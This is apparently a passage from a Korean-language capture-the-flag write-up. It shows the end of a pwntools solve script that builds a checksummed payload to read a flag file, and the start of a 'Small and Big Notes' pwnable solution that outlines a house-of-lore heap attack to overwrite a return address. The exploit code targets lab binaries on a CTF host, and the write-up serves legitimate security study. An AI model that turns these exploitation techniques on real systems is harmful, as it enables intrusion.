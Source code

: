 ```python
result = check_1(payload, 6)
print(result)

payload += result.to_bytes(2, 'little')
print(payload)

#flag_path = b'/home/bratva/dreamhack/receive_flag/deploy/flag'
flag_path = b'/home/chall/flag'
payload_heap = b'\x17\x33' + flag_path
result = check_2(payload_heap, len(payload_heap))
print(result)

payload_heap += result.to_bytes(4, 'little')
print(payload_heap)
payload += payload_heap

trailer = b'\x3f\xe6\x6e\xf8'
payload += trailer

p.send(payload)
p.interactive()
```

---

## **Small and Big Notes - [pwnable]**

> **💎 996 pts / 3 solves**
> 

### Analysis

- heap note 문제
- type에 따라 각각 small bin과 large bin의 chunk 를 할당할 수 있도록 되어 있음
- house of lore (small bin attack)을 이용하여 stack에 메모리 공간 할당
    - fake free list를 만들어줌
- ret address를 덮어 exploit

### Solve Code

```c
from pwn import *

context.terminal = ['tmux', 'splitw', '-v']

HOST, PORT = 'host3.dreamhack.games 19630'.split(' ')
BINARY = './chall'

if args.REMOTE:
    p = remote(HOST, PORT)
else:
    p = process(BINARY)
    #gdb.attach(p)

def write_note(typ, idx, content):
    p.sendlineafter(b'> ', b'1')
    p.sendlineafter(b'? ', str(typ).encode())
    p.sendlineafter(b'? ', str(idx).encode())
    p.sendlineafter(b'? ', content)

def read_note(typ, idx):
    p.sendlineafter(b'> ', b'2')
    p.sendlineafter(b'? ', str(typ).encode())
    p.sendlineafter(b'? ', str(idx).encode())
```
